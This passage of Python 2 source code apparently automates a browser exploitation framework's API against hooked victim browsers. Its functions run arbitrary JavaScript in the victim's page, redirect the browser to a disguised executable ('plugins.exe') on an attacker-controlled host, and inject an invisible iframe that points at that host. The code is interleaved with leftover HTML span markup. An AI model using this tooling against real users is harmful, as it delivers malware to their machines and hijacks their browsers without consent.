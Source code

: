 <span nodeIndex="762">def</span> execJavascript(host, session, authkey):

    payload={
        <span nodeIndex="763">"</span><span nodeIndex="764">cmd</span><span nodeIndex="765">"</span>:<span nodeIndex="766">"</span><span nodeIndex="767">alert('Hello by ssooking!');</span><span nodeIndex="768">"</span>
    }
    apiurl = host + <span nodeIndex="769">"</span><span nodeIndex="770">api/modules/</span><span nodeIndex="771">"</span> + session + <span nodeIndex="772">"</span><span nodeIndex="773">/169?token=</span><span nodeIndex="774">"</span> + authkey
    jdata = json.dumps(payload)
    req = urllib2.Request(apiurl, jdata)
    req.add_header(<span nodeIndex="775">"</span><span nodeIndex="776">Content-Type</span><span nodeIndex="777">"</span>, <span nodeIndex="778">"</span><span nodeIndex="779">application/json; charset=UTF-8</span><span nodeIndex="780">"</span>)
    response = urllib2.urlopen(req)
    resdata = response.read()
    <span nodeIndex="781">print</span> <span nodeIndex="782">"</span><span nodeIndex="783">   >>> [+] Module Raw JavaScript has been Executed ! </span><span nodeIndex="784">"</span>
    <span nodeIndex="785">return</span> resdata

<span nodeIndex="786">def</span> redirectBrowser(host, session, authkey):
    payload = {<span nodeIndex="787">"</span><span nodeIndex="788">redirect_url</span><span nodeIndex="789">"</span>:<span nodeIndex="790">"</span><span nodeIndex="791">http://192.168.1.133:8000/plugins.exe</span><span nodeIndex="792">"</span>}
    apiurl = host + <span nodeIndex="793">"</span><span nodeIndex="794">api/modules/</span><span nodeIndex="795">"</span> + session + <span nodeIndex="796">"</span><span nodeIndex="797">/42?token=</span><span nodeIndex="798">"</span> + authkey
    jdata = json.dumps(payload)
    req = urllib2.Request(apiurl, jdata)
    req.add_header(<span nodeIndex="799">"</span><span nodeIndex="800">Content-Type</span><span nodeIndex="801">"</span>, <span nodeIndex="802">"</span><span nodeIndex="803">application/json; charset=UTF-8</span><span nodeIndex="804">"</span>)
    response = urllib2.urlopen(req)
    resdata = response.read()
    jsondata =  json.loads(resdata)
    <span nodeIndex="805">print</span> <span nodeIndex="806">"</span><span nodeIndex="807">   >>> [+] Module Redirect Browser has been Executed ! </span><span nodeIndex="808">"</span>
    <span nodeIndex="809">return</span> jsondata

<span nodeIndex="810">def</span> createIFrame(host, sessionId, authkey):
    postdata = <span nodeIndex="811">'</span><span nodeIndex="812">{"target":"http://192.168.1.133:8000/"}</span><span nodeIndex="813">'</span>
    url = host + <span nodeIndex="814">"</span><span nodeIndex="815">api/modules/</span><span nodeIndex="816">"</span> + sessionId + <span nodeIndex="817">"</span><span nodeIndex="818">/174?token=</span><span nodeIndex="819">"</span> + authkey
    req = urllib2.Request(url, postdata)
    req.add_header(<span nodeIndex="820">"</span><span nodeIndex="821">Content-Type</span><span nodeIndex="822">"</span>, <span nodeIndex="823">"</span><span nodeIndex="824">application/json; charset=UTF-8</span><span nodeIndex="825">"</span>)
    f = urllib2.urlopen(req)
    <span nodeIndex="826">print</span> <span nodeIndex="827">"</span><span nodeIndex="828">   >>> [+] Module Create Invisible Iframe has been Executed ! </span><span nodeIndex="829">"</span>
    <span nodeIndex="830">return</span> f.read()
